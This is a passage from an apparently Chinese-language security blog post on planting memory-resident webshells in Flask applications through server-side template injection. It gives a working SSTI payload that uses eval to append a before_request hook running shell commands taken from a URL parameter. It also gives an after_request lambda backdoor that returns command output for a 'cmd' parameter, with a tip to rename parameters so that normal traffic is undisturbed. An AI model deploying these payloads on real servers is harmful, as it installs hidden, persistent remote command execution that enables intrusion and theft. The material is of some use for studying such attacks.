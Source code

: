 在这里，如果 None 键不存在，就初始化为一个空列表。如果存在传入的函数 f，则通过调用`before_request_funcs.setdefault(None, []).append(f)`函数把自定义函数f添加到before_request_funcs 字典中，在每次请求处理之前调用这个函数

重点：通过调用`before_request_funcs.setdefault(None, []).append(f)`函数添加了自定义函数

如果可以打入自定义的后门函数，那么每次请求前都会触发来执行命令

```python
lambda :__import__('os').popen('whoami').read()
```

内存马payload

```python
{{url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")}}&a=whoami
```

通过动态导入 sys 模块，获取当前 Flask 应用实例 app，并将一个匿名函数添加到 app 的请求前处理函数列表中，利用`before_request`装饰器触发自定义后门函数执行命令

![6](https://the0n3.top/medias/flask-shell/6.png)

### after_request

after_request：如果处理逻辑没有异常抛出，在每次请求后运行

`after_request`装饰器在每次请求处理之后调用，同样可以接收一个自定义函数f，区别在，这里的函数需要接收一个response对象，同时返回一个response对象

定义
```python
@setupmethod
    def after_request(self, f: AfterRequestCallable) -> AfterRequestCallable:
        """注册一个函数，在每次请求后运行。

        该函数会接收响应对象，并必须返回一个响应对象。这允许函数在发送响应之前修改或替换响应。

        如果一个函数引发异常，则任何剩余的 ``after_request`` 函数将不会被调用。因此，这不应用于必须执行的操作，例如关闭资源。请使用 :meth:`teardown_request` 来处理此类操作。
        """
        self.after_request_funcs.setdefault(None, []).append(f)
        return f
```

仅通过lambda无法对原始传进来的response进行修改后再返回，所以需要重新生成一个response对象，然后再返回这个response

函数内容为：

```python
lambda resp: #传入参数
    CmdResp if request.args.get('cmd') and      #如果请求参数含有cmd则返回命令执行结果
    exec('
        global CmdResp;     #定义一个全局变量，方便获取
        CmdResp=make_response(os.popen(request.args.get(\'cmd\')).read())   #创建一个响应对象
    ')==None    #exec函数返回None，所以恒真
    else resp)  #如果请求参数没有cmd则正常返回
#这里的cmd参数名和CmdResp变量名都是可以改的，最好改成服务中不存在的变量名以免影响正常业务
```
